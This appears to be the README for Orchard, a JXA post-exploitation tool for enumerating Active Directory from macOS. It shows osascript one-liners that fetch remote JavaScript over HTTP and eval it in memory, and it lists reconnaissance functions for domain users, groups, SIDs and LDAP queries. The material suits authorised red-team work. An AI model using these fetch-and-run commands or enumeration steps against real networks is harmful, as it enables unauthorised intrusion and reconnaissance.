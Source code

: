 # Orchard
JavaScript for Automation (JXA) tool to do Active Directory enumeration.

# Purpose
Live off the land for macOS. This program allows users to do Active Directory enumeration via macOS' JXA (JavaScript for Automation) code. This is the newest version of AppleScript, and thus has very poor documentation on the web. 

# Execution
Host the Orchard.js code somewhere you can access and pull it into a scripting session like so:
```JavaScript
testmac: ~$ osascript -l JavaScript -i
>> eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.56.1:8080/Orchard.js')),$.NSUTF8StringEncoding)));
=> undefined
>> Get_CurrentDomain();
=> "test.local"
>>
```
This requires the user to already have execution on the machine. Additionally, the capitalization for JavaScript in the first command is extremely important. **All of JXA is case sensitive.** The second line does an HTTP GET request for Orchard.js and loads the functions into the current session. If you just want to execute a single line (if there's only one function you want to execute for example) you can do the following instead:
```JavaScript
testmac: ~$ osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.56.1:8080/Orchard.js')),$.NSUTF8StringEncoding))); Get_CurrentDomain();"
```

## Execution Methods
All of the commands provide an API parameter. Right now they all default to *false* and changing them to *true* won't do anything. My first goal was to get everything implemented using the native macOS binaries, then I will go back and start implementing the same techniques using the Objective-C bridge to leverage API calls.

This means that every command does the following: `currApp.doShellScript(command);`. This will execute the necessary shell commands to accomplish the function goals. **Note:** From my testing, this doesn't spawn a Terminal.app window, but I make no guarantees.

## Calling a Function
After you've imported the Orchard.js code into your current session, you can call any of the functions with a slight tweak to normal JavaScript function calls. I wanted to make the code a bit more python-esque, so I modified the calling convention. You'll see functions defined as:

`function ConvertTo_SID({API=false, object=".\\root", type="Users} = {}) { code here; }`. This allows me to provide default values (if desired) to each function parameter as well as preventing them from being positional arguments like standard function calls. To call this function, simply do any of the following:
```JavaScript
ConvertTo_SID(); //Uses all of the default values to call the function
ConvertTo_SID({object:"TEST\\Domain Admins", type:"Groups"}); //leaves API as false, but sets object and type
ConvertTo_SID({type:"Groups",object:"TEST\\Domain Admins"}); //same as above - the order of the arguments doesn't matter
```
**Note1:** In defining a function this way, it's "name=value", but when calling the function it's "name:value". It's a little odd, I know, but you're most likely going to be just calling functions anyway.

**Note2:** Every function has a Help flag that can be used to get information about how to run the function

# Functions
| Function | Version Introduced | Description|
| ---------|:------------------|:-----------|
| ConvertTo_SID |1.0 |Convert Users, Groups, Or Computers to domain or local SIDs |
| ConvertFrom_SID |1.0 |Convert Users, Groups, or Computers from SIDs to names |
| Get_PathAcl |1.0 |Get linux and mac specific ACLs on a file or folder |
| Get_PathXattr |1.0 |Get mac specific extended attributes on a file or folder |
| Get_MountedVolumes |1.0 |Get the mounted volumes on the current computer |
| Set_MountVolume |1.0 |Mount a remote share on the current computer |
| Get_DomainUser |1.0 |List all domain users or get information on a specific user |
| Get_DomainComputer |1.0 |List all domain computers or get information on a specific computer |
| Get_LDAPSearch |1.0 |Execute a customized LDAP search query |
| Get_DomainOU |1.0 |List all domain organizational units or get information on a specific unit |
| Get_DomainSID |1.0 |Gets the SID of the domain by truncating the SID for the "Domain Admins" group |
| Get_DomainGroup |1.0 |List all domain groups or get information on a specific group |
| Get_DomainGroupMember |1.0 |Get all the members of a specific domain group |
| Get_CurrentDomain |1.0 |Get the fully qualified current domain |
| Get_CurrentNETBIOSDomain |1.0 |Get the NETBIOS name of the current domain |
| Get_Forest |1.0 |Get the fully qualified forest name |
